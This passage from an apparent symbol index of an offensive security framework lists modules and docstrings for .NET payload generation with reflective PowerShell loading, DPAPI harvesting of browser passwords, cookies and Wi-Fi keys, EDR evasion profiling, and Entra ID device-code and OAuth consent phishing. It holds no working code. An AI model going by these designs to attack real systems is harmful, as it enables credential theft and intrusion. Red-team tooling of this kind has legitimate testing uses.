for reverse connections.\n    extra_params: Additional template substitution values.", "kind": "class", "line": 293, "name": "DotNetPayloadConfig", "signature": "class DotNetPayloadConfig"}, {"doc": "Generate, compile, and format .NET/C# payloads.\n\nDetects available compilers (csc, mcs, dotnet) and selects the best\ntoolchain. Falls back to source-only output if no compiler is found.\n\nAttributes:\n    compiler: Detected compiler path or None.\n    compiler_type: One of 'csc', 'mcs', 'dotnet', None.\n    output_dir: Directory for compiled payloads.", "kind": "class", "line": 315, "name": "DotNetPayloadFactory", "signature": "class DotNetPayloadFactory"}, {"kind": "method", "line": 327, "name": "__init__", "signature": "def __init__(self, output_dir)"}, {"kind": "method", "line": 333, "name": "_detect_compiler", "signature": "def _detect_compiler()"}, {"doc": "Return available .NET payload template names.", "kind": "method", "line": 364, "name": "list_templates", "signature": "def list_templates()"}, {"kind": "method", "line": 368, "name": "_resolve_template", "signature": "def _resolve_template(self, config)"}, {"doc": "Generate C# source code from a template.\n\nArgs:\n    config: Payload configuration with template and connection params.\n\nReturns:\n    Complete C# source code as a string.\n\nRaises:\n    ValueError: If the template name is unknown.", "kind": "method", "line": 389, "name": "generate_source", "signature": "def generate_source(self, config)"}, {"doc": "Compile C# source to an assembly.\n\nArgs:\n    config: Compilation target and parameters.\n    source_code: Pre-generated source code (generated if None).\n\nReturns:\n    Path to the compiled binary, or None if compilation fails.", "kind": "method", "line": 403, "name": "compile", "signature": "def compile(self, config, source_code)"}, {"doc": "Generate a .NET payload — source code plus optional binary.\n\nArgs:\n    config: Full payload configuration.\n\nReturns:\n    Dict with keys: source, binary_path, binary_b64, format.", "kind": "method", "line": 454, "name": "generate", "signature": "def generate(self, config)"}, {"doc": "Generate a PowerShell script that reflectively loads a .NET assembly.\n\nArgs:\n    config: Payload configuration for the embedded assembly.\n\nReturns:\n    PowerShell script as a string.", "kind": "method", "line": 481, "name": "generate_powershell_reflective", "signature": "def generate_powershell_reflective(self, config)"}, {"doc": "Generate self-decompiling inline .NET assembly load command.\n\nDecodes base64-encoded C# source, compiles via Add-Type, and executes\nin a single PowerShell command line.\n\nArgs:\n    config: Payload configuration.\n\nReturns:\n    Single-line PowerShell command.", "kind": "method", "line": 500, "name": "generate_inline_assembly", "signature": "def generate_inline_assembly(self, config)"}, {"doc": "Convert a payload result to the requested output format.\n\nArgs:\n    data: Result dict from generate().\n    fmt: Output format key from OUTPUT_FORMATS.\n\nReturns:\n    Payload in the requested format.", "kind": "method", "line": 520, "name": "to_format", "signature": "def to_format(self, data, fmt)"}]}, {"doc": "DPAPI credential decryption and harvesting engine.  Supports offline decryption of: - Master keys (Preferred file, local machine keys, domain backup keys) - Credential files (Credential Manager, Windows Vault) - Browser data (Chrome, Edge — cookies, passwords, payment methods) - Wi-Fi profiles and WPA2 keys - RDP saved credentials - DPAPI-protected blobs with known entropy  Uses Windows DPAPI via Python ctypes (local) or Impacket (remote). Falls back to mimikatz-style masterkey extraction when available.", "id": "modules/dpapi_harvester.py", "kind": "module", "label": "dpapi_harvester.py", "language": "py", "sha256": "fcb5824d25826723", "symbol_count": 19, "symbols": [{"kind": "class", "line": 44, "name": "DPAPICredential", "signature": "class DPAPICredential"}, {"kind": "class", "line": 54, "name": "DPAPIMasterKey", "signature": "class DPAPIMasterKey"}, {"doc": "Harvest and decrypt DPAPI-protected credentials.\n\nSupports:\n- Master key extraction from local machine\n- Master key decryption via domain backup key\n- Credential manager vault decryption\n- Browser (Chrome/Edge) credential extraction\n- Wi-Fi profile recovery\n- RDP credential cache parsing\n\nArgs:\n    sessions_dir: Directory for output artifacts.\n    masterkey_path: Custom masterkey path to override default.", "kind": "class", "line": 63, "name": "DPAPIHarvester", "signature": "class DPAPIHarvester"}, {"kind": "method", "line": 79, "name": "__init__", "signature": "def __init__(self, sessions_dir, masterkey_path)"}, {"doc": "Run all harvesters and return all discovered credentials.\n\nReturns:\n    List of decrypted DPAPICredential objects.", "kind": "method", "line": 90, "name": "harvest_all", "signature": "def harvest_all(self)"}, {"kind": "method", "line": 105, "name": "_harvest_master_keys", "signature": "def _harvest_master_keys(self)"}, {"kind": "method", "line": 120, "name": "_harvest_credential_manager", "signature": "def _harvest_credential_manager(self)"}, {"kind": "method", "line": 143, "name": "_harvest_chrome", "signature": "def _harvest_chrome(self)"}, {"kind": "method", "line": 188, "name": "_harvest_chrome_offline", "signature": "def _harvest_chrome_offline(self)"}, {"kind": "method", "line": 198, "name": "_harvest_edge", "signature": "def _harvest_edge(self)"}, {"kind": "method", "line": 210, "name": "_harvest_wifi", "signature": "def _harvest_wifi(self)"}, {"kind": "method", "line": 250, "name": "_harvest_rdp", "signature": "def _harvest_rdp(self)"}, {"kind": "method", "line": 262, "name": "_harvest_windows_vault", "signature": "def _harvest_windows_vault(self)"}, {"kind": "method", "line": 286, "name": "_crack_login_data", "signature": "def _crack_login_data(self, login_db_path, key, source)"}, {"kind": "method", "line": 320, "name": "_crack_cookies", "signature": "def _crack_cookies(self, cookies_path, key, source)"}, {"kind": "method", "line": 355, "name": "_extract_sid_from_file", "signature": "def _extract_sid_from_file(filepath)"}, {"doc": "Export all harvested credentials to a text file.\n\nReturns:\n    Path to the exported file.", "kind": "method", "line": 367, "name": "export_credentials", "signature": "def export_credentials(self)"}, {"doc": "Generate a master key report.\n\nReturns:\n    Path to the report file.", "kind": "method", "line": 386, "name": "masterkey_report", "signature": "def masterkey_report(self)"}, {"kind": "class", "line": 160, "name": "DATA_BLOB", "signature": "class DATA_BLOB(Structure)"}]}, {"doc": "Solicita el TOKEN y el DOMAIN al usuario", "id": "modules/duckdns.sh", "kind": "module", "label": "duckdns.sh", "language": "sh", "sha256": "57f6306a21af82a4", "symbol_count": 0, "symbols": []}, {"doc": "EDR/AV Detection and Evasion Profiling Engine.  Detects endpoint security products (AV, EDR, XDR) on Windows targets through: - WMI queries (AntiVirusProduct, AntiSpywareProduct) - Service enumeration (running security services) - Process enumeration (security agent processes) - Registry inspection (installed security products) - Driver enumeration (kernel security drivers) - File system checks (known installation paths) - DLL injection detection (hooked modules)  Supports remote detection via WinRM/SMB/WMI and local detection from an implant. Generates an evasion profile recommending bypass techniques based on detected defenses.", "id": "modules/edr_detector.py", "kind": "module", "label": "edr_detector.py", "language": "py", "sha256": "265655b8cada052a", "symbol_count": 12, "symbols": [{"kind": "class", "line": 174, "name": "EDRFinding", "signature": "class EDRFinding"}, {"kind": "class", "line": 182, "name": "EDRProfile", "signature": "class EDRProfile"}, {"doc": "Detect antivirus and EDR products on Windows targets.\n\nCombines multiple detection sources to fingerprint security products:\nWMI, services, processes, registry, drivers, file paths.\n\nCan operate in local mode (running on the target) or generate\ncommands for remote execution via SMB/WinRM/WMI.", "kind": "class", "line": 191, "name": "EDRDetector", "signature": "class EDRDetector"}, {"doc": "Detect EDR products on the local Windows machine.\n\nReturns:\n    EDRProfile with detected products and recommendations.", "kind": "method", "line": 202, "name": "detect_local", "signature": "def detect_local()"}, {"doc": "Generate commands for remote EDR detection.\n\nArgs:\n    remote_type: Transport method (wmi, smb, winrm, ssh).\n\nReturns:\n    List of dicts with 'name' and 'command' keys.", "kind": "method", "line": 221, "name": "detect_remote_commands", "signature": "def detect_remote_commands(remote_type)"}, {"kind": "method", "line": 292, "name": "_local_processes", "signature": "def _local_processes()"}, {"kind": "method", "line": 305, "name": "_local_services", "signature": "def _local_services()"}, {"kind": "method", "line": 322, "name": "_local_drivers", "signature": "def _local_drivers()"}, {"kind": "method", "line": 335, "name": "_match_signatures", "signature": "def _match_signatures(profile)"}, {"kind": "method", "line": 370, "name": "_generate_recommendations", "signature": "def _generate_recommendations(profile)"}, {"kind": "method", "line": 428, "name": "_severity", "signature": "def _severity(profile)"}, {"doc": "Generate a PowerShell script for comprehensive EDR detection.\n\nArgs:\n    remote_type: Execution method hint for the script comments.\n\nReturns:\n    Complete PowerShell script as a string.", "kind": "method", "line": 440, "name": "generate_edr_check_script", "signature": "def generate_edr_check_script(remote_type)"}]}, {"doc": "Definición de colores", "id": "modules/eegg.sh", "kind": "module", "label": "eegg.sh", "language": "sh", "sha256": "8ad80811d3ff0319", "symbol_count": 4, "symbols": [{"doc": "Inicializa el tablero con las piezas en sus posiciones iniciales", "kind": "function", "line": 26, "name": "init_board"}, {"doc": "Función para mostrar el tablero", "kind": "function", "line": 40, "name": "show_board"}, {"doc": "Movimiento de peones blancos y negros", "kind": "function", "line": 61, "name": "move_white_pawns"}, {"kind": "function", "line": 78, "name": "move_black_pawns"}]}, {"doc": "Rich per-step engagement summaries from evidence and sessions artefacts.  Builds the operator-facing detail LAZY shows in its plan tab: what each step found (OS, ports, populated fields, facts, candidates, payload), what was skipped and why, and what to run next via the unified recommendation engine (``cli/recommendation.py`` — the single source of truth for suggestions). Full step outputs come from the evidence vault, never from truncated tails. Reports persist under ``sessions/engagements/`` for later queries by operators or agents.", "id": "modules/engage_summary.py", "kind": "module", "label": "engage_summary.py", "language": "py", "sha256": "42ac0391cce17172", "symbol_count": 8, "symbols": [{"doc": "Extract real log lines (``[+] ... [+]``) dropping panels and bars.", "kind": "function", "line": 35, "name": "marker_lines", "signature": "def marker_lines(text, limit)"}, {"doc": "Return the full step output from evidence, falling back to the tail.", "kind": "function", "line": 51, "name": "full_output", "signature": "def full_output(step, sessions_dir)"}, {"doc": "Parse held scan XMLs for open ports.\n\nReturns (ports, source_names). Ports look like ``4000/remoteanything``.", "kind": "function", "line": 64, "name": "held_scan_ports", "signature": "def held_scan_ports(target, sessions_dir)"}, {"doc": "Extract the key facts from one step output for the summary.", "kind": "function", "line": 98, "name": "detail_for", "signature": "def detail_for(tool, text, target, sessions_dir)"}, {"doc": "Rank next actions via the unified recommendation engine.\n\nDegrades to [] when the engine is unavailable — callers always work.", "kind": "function", "line": 150, "name": "next_actions", "signature": "def next_actions(target, sessions_dir, limit)"}, {"doc": "Render the console summary with per-step detail lines.", "kind": "function", "line": 175, "name": "render_text", "signature": "def render_text(engagement_id, target, shell, steps, sessions_dir)"}, {"doc": "Render the persisted per-engagement report.", "kind": "function", "line": 210, "name": "render_markdown", "signature": "def render_markdown(engagement_id, target, shell, steps, next_list, sessions_dir)"}, {"doc": "Persist the engagement report; return its relative path.", "kind": "function", "line": 247, "name": "write_report", "signature": "def write_report(engagement_id, target, shell, steps, sessions_dir)"}]}, {"doc": "modules/engagement_hooks.py — Engagement narration and notification fabric ==========================================================================  Single bridge layer shared by skills/autonomous_daemon.py (EngageOrchestrator) and lazyc2.py (beacon registration). Provides:  - EngagementNarrator   : human-readable journal at sessions/engagement.log - INotificationSink    : abstract sink contract (SRP/ISP) - CollabNotificationSink     : bridges to modules.collab_bp.publish_event - TelegramNotificationSink   : optional, gated by payload.enable_telegram_c2 - DiscordNotificationSink    : optional, gated by payload.enable_discord_c2 - StreamEventSink            : appends to sessions/autonomous_events.jsonl - NotificationBroadcaster    : fan-out to every registered sink - publish_shell_obtained(...): single entry point for lazyc2.py beacon code  SOLID: S — every class owns one concern. O — new sinks (Slack, syslog, SIEM) plug in via INotificationSink without touching the broadcaster or the narrator. L — every sink honours the INotificationSink contract; broadcaster never type-checks. I — small role-specific interfaces; the narrator does not depend on sink delivery details. D — the broadcaster depends on INotificationSink, not on concrete classes; callers inject sinks at construction time.  Security: - No dynamic imports of arbitrary modules. No eval/exec. - Outbound HTTP uses urllib with explicit URLs from payload.json keys only.", "id": "modules/engagement_hooks.py", "kind": "module", "label": "engagement_hooks.py", "language": "py", "sha256": "a8fb7da3ecbf14d2", "symbol_count": 42, "symbols": [{"doc": "Coerce any value to a length-bounded printable string.", "kind": "function", "line": 78, "name": "_safe_str", "signature": "def _safe_str(value, maxlen)"}, {"doc": "Return payload.json as a dict, empty on any error.\n\nThe engagement layer never raises on payload errors — it simply falls\nback to no-op behaviour for the sinks that depend on the missing key.", "kind": "function", "line": 88, "name": "_load_payload", "signature": "def _load_payload()"}, {"doc": "Value object describing a single engagement-narrator event.\n\nAttributes:\n    event_id: Short hex identifier unique within a daemon run.\n    ts: ISO-8601 UTC timestamp.\n    kind: Semantic event type (PHASE, STEP, FINDING, SHELL, APPROVAL,\n          SWITCH_TOOL, ERROR, INFO).\n    target: Primary target IP or hostname for the event.\n    message: Human-readable narrative line for engagement.log.\n    payload: Structured machine-readable payload for the audit JSONL.\n    severity: One of info, warning, critical.", "kind": "class", "line": 101, "name": "EngagementEvent", "signature": "class EngagementEvent"}, {"doc": "Contract for downstream delivery channels (collab, telegram, etc.).", "kind": "class", "line": 150, "name": "INotificationSink", "signature": "class INotificationSink(ABC)"}, {"doc": "Append every event to sessions/autonomous_events.jsonl for the daemon stream.\n\nThis sink is the canonical record consumed by lazyown_autonomous_events\nso engage events join the existing autonomous stream rather than living\nin a parallel file.", "kind": "class", "line": 167, "name": "StreamEventSink", "signature": "class StreamEventSink(INotificationSink)"}, {"doc": "Bridges engagement events to modules.collab_bp.publish_event.\n\nTeammates connected to the C2 dashboard see every narrated event in\nreal time without any extra wiring. The import is lazy so unit tests\nthat do not bring up Flask still pass.", "kind": "class", "line": 204, "name": "CollabNotificationSink", "signature": "class CollabNotificationSink(INotificationSink)"}, {"doc": "Base class for HTTPS-based sinks (Telegram/Discord/webhook).\n\nSubclasses override `_build_request(event)` to return (url, body_bytes,\nheaders) or None when delivery should be skipped (missing config).", "kind": "class", "line": 242, "name": "_OutboundHTTPSink", "signature": "class _OutboundHTTPSink(INotificationSink)"}, {"doc": "Send a notification to a Telegram chat via the Bot API.\n\nRequired payload.json keys:\n  enable_telegram_c2: truthy flag to enable delivery\n  telegram_token   : Bot API token\n  telegram_chat_id : numeric chat id (or @channel)", "kind": "class", "line": 278, "name": "TelegramNotificationSink", "signature": "class TelegramNotificationSink(_OutboundHTTPSink)"}, {"doc": "Send a notification to a Discord channel via webhook.\n\nRequired payload.json keys:\n  enable_discord_c2 : truthy flag to enable delivery\n  discord_webhook   : full webhook URL", "kind": "class", "line": 311, "name": "DiscordNotificationSink", "signature": "class DiscordNotificationSink(_OutboundHTTPSink)"}, {"doc": "Fan-out events to every registered sink.\n\nConstruction:\n    broadcaster = NotificationBroadcaster.default()\n\nCustom sinks (or test doubles):\n    broadcaster = NotificationBroadcaster([StreamEventSink(), my_sink])\n\ndeliver(event) returns the list of sink names that accepted the event.\nNo exception escapes; sink failures are silent at info level.", "kind": "class", "line": 336, "name": "NotificationBroadcaster", "signature": "class NotificationBroadcaster"}, {"doc": "Writes human-readable narration to sessions/engagement.log and an\naudit JSONL trail, then fans the event out through the broadcaster.\n\nThe narrator does not know about delivery details; it owns formatting\nand persistence only.", "kind": "class", "line": 382, "name": "EngagementNarrator", "signature": "class EngagementNarrator"}, {"doc": "Return the persisted set of beacons we have already narrated.", "kind": "function", "line": 444, "name": "_load_seen_beacons", "signature": "def _load_seen_beacons()"}, {"doc": "Persist the seen-beacons map atomically.", "kind": "function", "line": 455, "name": "_save_seen_beacons", "signature": "def _save_seen_beacons(seen)"}, {"doc": "Restrict client_id to alphanumerics, dash, underscore (<=64 chars).\n\nDots are disallowed so a malicious beacon cannot smuggle `..` into any\nfile path derived from the id.", "kind": "function", "line": 466, "name": "_sanitize_client_id", "signature": "def _sanitize_client_id(client_id)"}, {"doc": "Return the process-wide default narrator (lazy singleton).", "kind": "function", "line": 482, "name": "get_default_narrator", "signature": "def get_default_narrator()"}, {"doc": "Single entry point called by lazyc2.py on every beacon check-in.\n\nIdempotent: only narrates the first time a client_id is seen. Subsequent\ncalls for the same beacon return None without emitting any event so the\noperator log stays clean.\n\nArgs:\n    client_id: Beacon client identifier from the C2 registration.\n    primary_ip: First IP from the beacon's ips field.\n    hostname: Hostname reported by the beacon.\n    user: Username under which the beacon is running.\n    platform: Beacon's reported OS / platform string.\n    narrator: Optional injected narrator (for tests).\n\nReturns:\n    EngagementEvent for the first sighting, None for repeats.", "kind": "function", "line": 491, "name": "publish_shell_obtained", "signature": "def publish_shell_obtained(client_id, primary_ip, hostname, user, platform, narrator)"}, {"doc": "Append one approval-pending record to sessions/engagement_approvals.jsonl.", "kind": "function", "line": 564, "name": "append_approval_record", "signature": "def append_approval_record(record)"}, {"doc": "Return every approval record whose status is still 'pending'.", "kind": "function", "line": 575, "name": "list_pending_approvals", "signature": "def list_pending_approvals()"}, {"doc": "Append a resolution record for the given approval_id.\n\nArgs:\n    approval_id: Identifier returned when the approval was created.\n    decision: 'approved' or 'denied'.\n    operator: Optional operator handle for audit.\n\nReturns:\n    True when the resolution was persisted; False on malformed input.", "kind": "function", "line": 601, "name": "resolve_approval", "signature": "def resolve_approval(approval_id, decision, operator)"}, {"doc": "Validate that value is a dotted-quad IPv4 or a safe hostname token.", "kind": "function", "line": 626, "name": "is_valid_target", "signature": "def is_valid_target(value)"}, {"doc": "Construct an event with a fresh id and current UTC timestamp.", "kind": "method", "line": 124, "name": "now", "signature": "def now(cls, kind, target, message, payload, severity)"}, {"doc": "Return a single-line operator-facing log entry.", "kind": "method", "line": 143, "name": "render_line", "signature": "def render_line(self)"}, {"doc": "Stable channel identifier used for diagnostic logging.", "kind": "method", "line": 155, "name": "name", "signature": "def name(self)"}, {"doc": "Deliver one event. Return True when accepted.\n\nImplementations must never raise. A delivery failure is reported by\nreturning False and logging the cause at debug level.", "kind": "method", "line": 159, "name": "deliver", "signature": "def deliver(self, event)"}, {"kind": "method", "line": 178, "name": "name", "signature": "def name(self)"}, {"kind": "method", "line": 181, "name": "deliver", "signature": "def deliver(self, event)"}, {"kind": "method", "line": 213, "name": "name", "signature": "def name(self)"}, {"kind": "method", "line": 216, "name": "deliver", "signature": "def deliver(self, event)"}, {"kind": "method", "line": 252, "name": "name", "signature": "def name(self)"}, {"kind": "method", "line": 255, "name": "_build_request", "signature": "def _build_request(self, event)"}, {"kind": "method", "line": 258, "name": "deliver", "signature": "def deliver(self, event)"}, {"kind": "method", "line": 288, "name": "name", "signature": "def name(self)"}, {"kind": "method", "line": 291, "name": "_build_request", "signature": "def _build_request(self, event)"}, {"kind": "method", "line": 320, "name": "name", "signature": "def name(self)"}, {"kind": "method", "line": 323, "name": "_build_request", "signature": "def _build_request(self, event)"}, {"kind": "method", "line": 349, "name": "__init__", "signature": "def __init__(self, sinks)"}, {"doc": "Return a broadcaster with the standard four-sink configuration.", "kind": "method", "line": 354, "name": "default", "signature": "def default(cls)"}, {"doc": "Register an additional sink at runtime.", "kind": "method", "line": 365, "name": "add", "signature": "def add(self, sink)"}, {"doc": "Push event to all sinks. Return the names of accepting sinks.", "kind": "method", "line": 370, "name": "deliver", "signature": "def deliver(self, event)"}, {"kind": "method", "line": 393, "name": "__init__", "signature": "def __init__(self, broadcaster)"}, {"doc": "Write one line + audit record and dispatch to every sink.\n\nReturns the constructed EngagementEvent so callers can correlate.", "kind": "method", "line": 400, "name": "narrate", "signature": "def narrate(self, kind, target, message, payload, severity)"}, {"kind": "method", "line": 417, "name": "_persist", "signature": "def _persist(self, event)"}]}, {"doc": "Async target enrichment with scan dedup (LAZY enrich parity).  LAZY ``enrich/enrich.go`` runs DNS + HTTP jobs off the hot path with a 4-worker pool, 1024 queue and 5-minute cooldown. This port provides the same shape in stdlib Python: a small thread-pool engine plus :func:`should_rescan`, which stops the loop re-running nmap when ``sessions/scan_<target>.nmap*`` already holds fresh results.", "id": "modules/enrich.py", "kind": "module", "label": "enrich.py", "language": "py", "sha256": "55ded8e219eed3d3", "symbol_count": 11, "symbols": [{"doc": "One enrichment outcome for a target.", "kind": "class", "line": 30, "name": "EnrichResult", "signature": "class EnrichResult"}, {"doc": "Return existing scan artefacts for a target.", "kind": "function", "line": 40, "name": "scan_files_for", "signature": "def scan_files_for(sessions_dir, target)"}, {"doc": "Return True when no fresh scan artefact exists for target.", "kind": "function", "line": 57, "name": "should_rescan", "signature": "def should_rescan(sessions_dir, target, fresh_sec)"}, {"doc": "Resolve A/AAAA for a target with a bounded timeout.", "kind": "function", "line": 73, "name": "resolve_dns", "signature": "def resolve_dns(target, timeout)"}, {"doc": "Fetch HTTP headers for a target without following credentials.", "kind": "function", "line": 86, "name": "fetch_http", "signature": "def fetch_http(target, timeout)"}, {"doc": "Bounded async enrichment pool (LAZY Engine parity).", "kind": "class", "line": 100, "name": "EnrichEngine", "signature": "class EnrichEngine"}, {"doc": "Return the process-wide enrichment engine (LAZY parity).\n\nOne pool serves both flows; per-target cooldown dedups submissions\nso enrichment never blocks the hot path.", "kind": "function", "line": 137, "name": "shared_engine", "signature": "def shared_engine()"}, {"doc": "Create the pool and cooldown index.", "kind": "method", "line": 103, "name": "__init__", "signature": "def __init__(self, max_workers)"}, {"doc": "Queue DNS+HTTP enrichment unless inside cooldown.", "kind": "method", "line": 108, "name": "submit", "signature": "def submit(self, target)"}, {"doc": "Execute DNS then HTTP enrichment for one target.", "kind": "method", "line": 121, "name": "_run", "signature": "def _run(self, target)"}, {"doc": "Shut the pool down without blocking the loop by default.", "kind": "method", "line": 128, "name": "shutdown", "signature": "def shutdown(self, wait)"}]}, {"doc": "Azure AD / Entra ID attack module — Graph API abuse, OAuth consent grants, device code phishing.  Provides attack primitives against Microsoft Entra ID (formerly Azure AD): OAuth application consent grant attacks, device code phishing, service principal credential theft, managed identity abuse, and Entra Connect synchronization exploitation.  Requires requests and msal libraries for Graph API operations.", "id": "modules/entra_id_attacks.py", "kind": "module", "label": "entra_id_attacks.py", "language": "py", "sha256": "85cb15648077dbec", "symbol_count": 12, "symbols": [{"doc": "Configuration for Entra ID attack operations.\n\nAttributes:\n    tenant_id: Azure tenant ID (or 'common', 'organizations', 'consumers').\n    client_id: Application registration client ID.\n    client_secret: Application client secret.\n    username: Target user principal name.\n    password: Target user password.\n    refresh_token: OAuth refresh token (if already obtained).\n    access_token: Bearer token for Graph API.\n    graph_api_base: Microsoft Graph API endpoint.", "kind": "class", "line": 57, "name": "EntraIDConfig", "signature": "class EntraIDConfig"}, {"doc": "Execute Entra ID attacks against Azure AD / Microsoft 365 tenants.\n\nImplements OAuth consent grant, device code phishing, service principal\ncredential abuse, and managed identity escalation paths.\n\nAttributes:\n    config: EntraIDConfig with tenant and authentication details.\n    session: Requests session with bearer token.", "kind": "class", "line": 81, "name": "EntraIDAttackEngine", "signature": "class EntraIDAttackEngine"}, {"kind": "method", "line": 92, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Initiate a device code phishing flow.\n\nGenerates a device code and user code for the target tenant.\nThe user authenticates at https://microsoft.com/devicelogin.\n\nArgs:\n    scope: OAuth scope to request.\n\nReturns:\n    Dict with device_code, user_code, verification_uri, and polling info.", "kind": "method", "line": 96, "name": "device_code_phish", "signature": "def device_code_phish(self, scope)"}, {"doc": "Poll for device code completion to retrieve tokens.\n\nArgs:\n    device_code: Device code from device_code_phish().\n    interval: Polling interval in seconds.\n    timeout: Maximum polling time in seconds.\n\nReturns:\n    Dict with access_token, refresh_token, id_token, or error.", "kind": "method", "line": 129, "name": "poll_device_code", "signature": "def poll_device_code(self, device_code, interval, timeout)"}, {"doc": "Generate an OAuth consent grant phishing URL.\n\nCreates an application consent link that grants the attacker's\napplication permissions to the tenant when approved by a user.\n\nArgs:\n    redirect_uri: OAuth redirect URI.\n\nReturns:\n    Dict with consent_url and required permissions.", "kind": "method", "line": 166, "name": "oauth_consent_grant", "signature": "def oauth_consent_grant(self, redirect_uri)"}, {"doc": "Plan service principal credential theft via app registration abuse.\n\nIf the attacker has Application.ReadWrite.All or Application Administrator\nrole, they can add credentials (certificates/secrets) to any app registration\nand impersonate it.\n\nReturns:\n    Dict with attack steps and Graph API commands.", "kind": "method", "line": 203, "name": "service_principal_credential_theft", "signature": "def service_principal_credential_theft(self)"}, {"doc": "Exploit Azure managed identities from compromised VMs/containers.\n\nManaged identities provide automatic tokens to Azure resources.\nIMDS (169.254.169.254) exposes the identity endpoint.\n\nArgs:\n    resource: Token audience (resource).\n\nReturns:\n    Dict with IMDS commands and token extraction.", "kind": "method", "line": 235, "name": "managed_identity_abuse", "signature": "def managed_identity_abuse(self, resource)"}, {"doc": "Exploit Entra Connect Sync for on-prem to cloud privilege escalation.\n\nThe Entra Connect Sync service account has DCSync privileges on\nthe on-prem AD and write access to Entra ID.\n\nReturns:\n    Dict with attack path and exploitation commands.", "kind": "method", "line": 266, "name": "entra_connect_sync_abuse", "signature": "def entra_connect_sync_abuse(self)"}, {"doc": "Techniques for bypassing Entra ID Conditional Access policies.\n\nReturns:\n    Dict with bypass techniques and their prerequisites.", "kind": "method", "line": 307, "name": "conditional_access_bypass", "signature": "def conditional_access_bypass(self)"}, {"doc": "Enumerate tenant information via Graph API.\n\nReturns:\n    Dict with tenant details, domains, users, and apps.", "kind": "method", "line": 345, "name": "enumerate_tenant", "signature": "def enumerate_tenant(self)"}, {"kind": "method", "line": 368, "name": "summary", "signature": "def summary(self)"}]}, {"doc": "Estorides intel fusion: merge OSINT graph entities into campaign graphs.  Reads an estorides export (``estorides_lazyown.json`` preferred, raw ``estorides_graph.json`` accepted) and merges it into the intel and attack-surface graphs. When an IP or value already exists as a node, the two records fuse: sources union plus ``estorides``, attributes merge, edges re-anchor. New entities arrive tagged and capped so the graphs stay readable.  Provenance stays explicit: every fused node carries ``estorides`` in its sources and estorides edges keep their ``estorides:`` evidence prefix.", "id": "modules/estorides_fusion.py", "kind": "module", "label": "estorides_fusion.py", "language": "py", "sha256": "aa789d8997ebf112", "symbol_count": 11, "symbols": [{"doc": "Locate the estorides working copy.\n\nResolution order, no hardcoded user paths: the ESTORIDES_DIR\nenvironment override first, then the lazyaddon install directory.", "kind": "function", "line": 48, "name": "estorides_checkout", "signature": "def estorides_checkout()"}, {"doc": "Find an estorides export, preferring the LazyOwn vocabulary file.", "kind": "function", "line": 68, "name": "find_export", "signature": "def find_export(sessions_dir)"}, {"doc": "Run ``estorides_cli.py graph --export lazyown`` into sessions/.\n\nNever raises: failures return None and the caller keeps working with\nwhatever export already exists.", "kind": "function", "line": 84, "name": "run_export", "signature": "def run_export(sessions_dir, cli_path, timeout_sec)"}, {"doc": "Normalize a fusion key (case/whitespace-insensitive).", "kind": "function", "line": 123, "name": "_norm", "signature": "def _norm(value)"}, {"doc": "Load an export in either vocabulary into nodes/edges lists.", "kind": "function", "line": 128, "name": "load_export", "signature": "def load_export(path)"}, {"doc": "Translate a raw estorides export_json document to LazyOwn vocabulary.", "kind": "function", "line": 142, "name": "_from_raw", "signature": "def _from_raw(document)"}, {"doc": "Assign a campaign community to a fused entity.", "kind": "function", "line": 180, "name": "community_for", "signature": "def community_for(kind, value)"}, {"doc": "Fuse estorides entities into graph nodes/edges in place.\n\nMatching (kind, value) fuses records; new entities arrive with\n``estorides`` provenance until ``cap``. Returns merge statistics.", "kind": "function", "line": 187, "name": "merge_estorides", "signature": "def merge_estorides(nodes, edges, est, cap)"}, {"doc": "Find a LAN bundle deliverable, preferring LazyOwn vocabulary.", "kind": "function", "line": 268, "name": "find_lan_bundle", "signature": "def find_lan_bundle(sessions_dir)"}, {"doc": "Load a LAN bundle file into nodes/edges lists. Never raises.", "kind": "function", "line": 288, "name": "load_lan_bundle", "signature": "def load_lan_bundle(path)"}, {"doc": "Split a LAN payload into intel (all) and attack (hosts) views.\n\nThe intel graph keeps everything known. The attack graph keeps only\nhost nodes plus host-anchored edges so auto_loop queues actionable\ntargets without MAC/hostname noise.", "kind": "function", "line": 323, "name": "split_lan_targets", "signature": "def split_lan_targets(est)"}]}, {"doc": "estorides_importer ================== Bidirectional bridge between Estorides (passive OSINT) and LazyOwn (active pentest).  Feeds LazyOwn host/domain intelligence into Estorides for passive discovery and imports Estorides-discovered entities back into LazyOwn's database, scope, and world model — creating a continuous feedback loop.  Data flow:  LazyOwn (world_model, db_hosts, scope) │ ▼  estorides_seed: extract IPs/domains → estorides discover Estorides (cases, STIX, graph, fusion) │ ▼  estorides_import: parse entities → LazyOwn DB + scope LazyOwn (enriched: new hosts, expanded scope) │ ▼  lazynmap / nuclei on new targets ...  Architecture:  EstoridesSeedExtractor   - pull LazyOwn surfaces into estorides seeds EstoridesCaseReader      - read estorides_cases.sqlite EstoridesStixParser      - parse STIX 2.1 bundles EstoridesImporter        - import entities into LazyOwn DB/scope FeedbackLoop             - orchestrate the bidirectional cycle", "id": "modules/estorides_importer.py", "kind": "module", "label": "estorides_importer.py", "language": "py", "sha256": "8df3543374e74e39", "symbol_count": 47, "symbols": [{"doc": "A single entity discovered by Estorides.", "kind": "class", "line": 84, "name": "EstoridesEntity", "signature": "class EstoridesEntity"}, {"doc": "Result of an estorides import operation.", "kind": "class", "line": 96, "name": "ImportResult", "signature": "class ImportResult"}, {"doc": "Result of seeding estorides with LazyOwn hosts.", "kind": "class", "line": 128, "name": "SeedResult", "signature": "class SeedResult"}, {"doc": "Extract IPs and domains from world_model.json as estorides seeds.\n\nReturns list of (type, value) tuples suitable for estorides discover.", "kind": "function", "line": 143, "name": "extract_seeds_from_world_model", "signature": "def extract_seeds_from_world_model(world_model_path)"}, {"doc": "Extract IPs/domains from hostsdiscovery.txt or similar.\n\nReturns list of (type, value) tuples.", "kind": "function", "line": 175, "name": "extract_seeds_from_hosts_file", "signature": "def extract_seeds_from_hosts_file(path)"}, {"doc": "Extract hosts from LazyOwn database.\n\nReturns list of (type, value) tuples.", "kind": "function", "line": 203, "name": "extract_seeds_from_db", "signature": "def extract_seeds_from_db(db_path)"}, {"doc": "Extract scoped IPs/domains from payload.json scope list.\n\nReturns list of (type, value) tuples.", "kind": "function", "line": 242, "name": "extract_seeds_from_scope", "signature": "def extract_seeds_from_scope(scope_entries)"}, {"doc": "Run estorides discover on a single seed.\n\nReturns the surface JSON dict on success, None on failure.", "kind": "function", "line": 272, "name": "run_estorides_discover", "signature": "def run_estorides_discover(seed_type, seed_value, max_depth, max_steps, out_json, timeout)"}, {"doc": "Run estorides run (single fan-out) on a 